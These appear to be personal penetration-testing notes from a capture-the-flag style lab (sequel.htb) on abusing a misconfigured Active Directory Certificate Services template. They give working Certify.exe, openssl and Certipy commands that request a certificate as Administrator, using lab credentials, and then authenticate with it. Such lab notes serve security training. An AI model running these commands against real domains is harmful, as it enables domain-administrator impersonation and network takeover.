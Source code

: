 https://raxis.com/blog/ad-series-active-directory-certificate-services-adcs-misconfiguration-exploits/
##### Detection
User Group in *Certificate service DCOM access*.

---
## Method 1: Using Certify.exe
```cmd
.\Certify.exe find /vulnerable
```

![[Pasted image 20240330230448.png]]

Request certificate for another user (administrator)
```cmd
Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```

![[Pasted image 20240330230739.png]]
Make sure to copy the whole body (from BEGIN RSA PRIVATE KEY to END CERTIFICATE). In order to successfully convert it we must have the private key itself.
Copy it to Linux:
```sh
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Follow the next steps [here](https://systemweakness.com/exploiting-cve-2022-26923-by-abusing-active-directory-certificate-services-adcs-a511023e5366)



## Method 2: Using Certipy
```sh
certipy-ad req -username Ryan.Cooper@sequel.htb -password NuclearMosquito3 -target-ip sequel.htb -ca 'sequel-DC-CA' -template UserAuthentication -upn 'administrator@sequel.htb'

certipy-ad auth -pfx administrator.pfx
# If error occurs, ntpdate -u dc.sequel.htb
```